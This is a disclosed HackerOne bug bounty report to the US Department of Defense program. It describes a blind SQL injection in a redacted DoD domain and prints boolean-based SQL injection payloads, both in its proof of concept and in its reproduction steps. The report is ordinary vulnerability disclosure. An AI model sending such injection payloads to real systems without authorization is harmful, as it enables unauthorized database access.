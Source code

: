 # Blind SQL iNJECTION 

## Report Details
- **Report ID**: 1102591
- **URL**: https://hackerone.com/reports/1102591
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-02-13T07:40:02.058Z
- **Disclosed**: 2021-06-03T16:32:38.792Z

## Reporter
- **Username**: 1337n0x
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi DoD Secuirty team ,
i found Blind SQL Injection in this below domain 
https://███████
Proof of concept:
Vuln URL:https://██████████/██████
Pooc:

URL encoded POST input ███ was set to -1' OR 3*2*1=6 AND 1=1 or '4mEwSPwJ'='

Tests performed: 
-1' OR 1=1 or '4mEwSPwJ'=' => TRUE
-1' OR 2=4 or '4mEwSPwJ'=' => FALSE
-1' OR 3*2<(1+2+4) or '4mEwSPwJ'=' => TRUE
-1' OR 3*2>(1+2+4) or '4mEwSPwJ'=' => FALSE
Poc video :
███

## Impact

It gives the attacker access and control over the backend database server

## System Host(s)
██████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
..Vuln URL:https://██████/█████
Pooc:

URL encoded POST input ███ was set to -1' OR 3*2*1=6 AND 1=1 or '4mEwSPwJ'='

Tests performed: 
-1' OR 1=1 or '4mEwSPwJ'=' => TRUE
-1' OR 2=4 or '4mEwSPwJ'=' => FALSE
-1' OR 3*2<(1+2+4) or '4mEwSPwJ'=' => TRUE
-1' OR 3*2>(1+2+4) or '4mEwSPwJ'=' => FALSE
Poc video :
█████

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
